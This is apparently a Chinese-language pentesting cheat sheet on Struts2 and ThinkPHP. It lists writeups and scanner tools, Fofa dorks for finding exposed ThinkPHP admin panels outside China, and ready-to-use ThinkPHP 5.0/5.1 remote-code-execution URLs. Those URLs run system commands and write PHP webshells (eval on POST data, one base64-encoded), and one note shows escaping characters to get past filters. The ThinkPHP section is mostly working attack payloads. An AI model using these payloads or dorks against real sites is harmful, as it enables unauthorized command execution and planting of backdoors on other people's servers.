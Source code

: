 https://target.yijinglab.com
# Struts2漏洞
用于创建企业级Java Web应用的开源MVC框架, 由Apache软件基金会负责维护开源. 其本质相当于一个servlet, 作为controller来建立模型于视图的数据交互.

## Struts2历史漏洞
[史上最全Struts2 漏洞复现合集（上](https://zhuanlan.zhihu.com/p/183876381)
[Struts2系列漏洞复现汇总-持续更新中 - 小阿辉谈安全](https://www.cnblogs.com/hgschool/p/17035322.html)

### Struts2原理分析
[Struts2漏洞集合分析与梳理 | tttang](https://tttang.com/archive/1583/)
[Struts2 系列漏洞调试总结 | 素十八](https://su18.org/post/struts2-5/)

### Struts2环境搭建
https://github.com/vulhub/vulhub/tree/master/struts2

### Struts2检测工具
https://github.com/HatBoy/Struts2-Scan
https://github.com/Guaang/s2-tool
https://github.com/shack2/Struts2VulsTools


# Thinkphp
由国人开发的开源框架, 支持Win/Unix/Linux等服务器环境的轻量级PHP开发框架, 很多cmd基于thinkphp开发
- KenCMD内容管理系统
- ThinkCMF内容管理框架
- DuxCMS

## Thinkphp历史漏洞
|版本|漏洞类型|
|--|--|
|ThinkPHP3.2.3|缓存函数设计缺陷可导致Getshell|
|ThinkPHP3.2.3|最新版update注入漏洞|
|ThinkPHP3.2.X|find_select_delete漏洞|
|ThinkPHP3.X|order_by注入漏洞|
|ThinkPHP5.0.X|sql注入漏洞|
|ThinkPHP5.0.10|缓存函数设计缺陷可导致Getshell|
|ThinkPHP5|SQL注入漏洞&&敏感信息泄露|
|ThinkPHP5.X|order_by注入漏洞|
|ThinkPHP5.X|远程代码执行|

### 漏洞发现
![[Pasted image 20230819012036.png]]
- Fofa
```
header="thinkphp" && country!="CN"
header="thinkphp" && country!="CN" && title="后台管理"
header="thinkphp" && country!="CN" && title="后台管理" && after="2021-01-01"
```
- https://github.com/Lucifer1993/TPscan
- https://github.com/theLSA/tp5-getshell
- https://github.com/Lotus6/ThinkphpGUI
- https://github.com/bewhale/thinkphp_gui_tools
- https://github.com/MrHatSec/ThinkPhp5.x_Scan
- 漏洞总结
	- https://y4er.com/post/thinkphp3-vuln/
	- https://y4er.com/post/thinkphp5-rce/
`/index.php?s=index/\think\app/invokefunction`路径下存在执行回调函数, 用户可以自定义调用的函数和参数值, 以此调用system函数, 执行任意命令

#### 5.0.* 常用POC
##### 执行命令
```
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
##### 写入webshell
```
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php @eval($_POST[ccc]);?>

/index.php?
s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo -n  YWFhPD9waHAgQGFzc2VydCgkX1BPU1RbJ3hzcyddKTs/PmJiYg== | base64 -d > shell9.php
```

#### 5.1.* 常用POC
##### 执行命令
```
/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

/index.php?s=index/\think\Request/input&filter=system&data=id

/index.php?s=/index/\think\request/cache&key=1|phpinfo
```
##### 写入webshell
```
/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[ccc]);?>" >shell.php
```
##### 替换过滤字符
```
(echo "^<?php @eval($_POST[ccc]);?^>" >shell1.php)
```
